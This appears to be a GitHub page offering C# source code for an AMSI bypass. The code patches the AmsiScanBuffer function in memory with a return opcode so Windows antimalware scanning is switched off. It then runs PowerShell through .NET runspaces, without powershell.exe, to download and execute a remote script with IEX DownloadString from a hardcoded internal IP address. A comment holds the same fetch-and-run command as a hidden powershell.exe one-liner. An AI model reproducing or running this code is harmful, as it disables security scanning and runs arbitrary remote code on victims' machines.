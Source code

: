 AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.
```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace AmsiScan
{
    class Program
    {
        static void Main(string[] args)
        {
          
            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Execution.MeMe();

        }
        //powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.200.128:80/Test'))"
        public class Execution
        {
            public static void MeMe()
            {
                RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
                Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
                rspace.Open();
                Pipeline pipeline = rspace.CreatePipeline();
                pipeline.Commands.AddScript("iex ((New-Object Net.WebClient).DownloadString('http://192.168.200.128:80/Test'))");
                pipeline.Invoke();
            }
        }

        //Importing The Necessary WInAPI to Load 

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```

